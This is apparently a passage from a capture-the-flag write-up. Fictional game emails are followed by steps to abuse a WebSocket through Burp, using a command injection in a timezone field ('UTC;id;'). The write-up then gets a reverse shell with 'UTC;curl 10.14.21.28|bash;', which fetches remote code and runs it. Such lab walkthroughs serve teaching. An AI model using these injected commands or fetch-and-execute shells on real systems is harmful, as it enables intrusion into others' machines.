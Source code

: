 ```
>some implications there that I'm afraid to pursue too
>much further.  I'll talk to Tracer.  Proceed with caution.
>
>-P
```

```
From: ClassicMovies.pcx3345:ABS
To: Paul Denton//NYCNET.33.34.4346
Subject: Account Verification

Mr. Denton:

We've recieved your order for "Blue Harvest" and "See You Next Wednesday."  At
your earliest possible convenience, please remit c110 at which point they will
be shipped immediately.

 Thanks for your business,

 Marcy Plaigrond
 Vibrant Videos, Inc.
```

That's all we can find for the id fuzzing part, if we remember the script opens a `websocket`, we can manipulate this WebSocket to execute commands let's use burp on this case for `websocket` manipulation:

![](cybersecurity/images/Pasted%2520image%252020250702173041.png)

If we test a simple `command injection`, we get this:

```
UTC;id;
```
![](cybersecurity/images/Pasted%2520image%252020250702173113.png)

This means that command injection is possible, so, getting a shell is possible too, in order to get a shell, we can use `busybox` or create a `index.html` file with a python reverse shell:

![](cybersecurity/images/Pasted%2520image%252020250702172303.png)

Now, we need to host it using a python server and use curl to get the file, once the file downloads, we need to use bash to execute it, we can do all this with the following command:

```
UTC;curl 10.14.21.28|bash;
```

>Note: Make sure to use only ports `80` and `443` because the server is only able to reach us on those ports.

Once we send it, this happens:

![](cybersecurity/images/Pasted%2520image%252020250702173230.png)
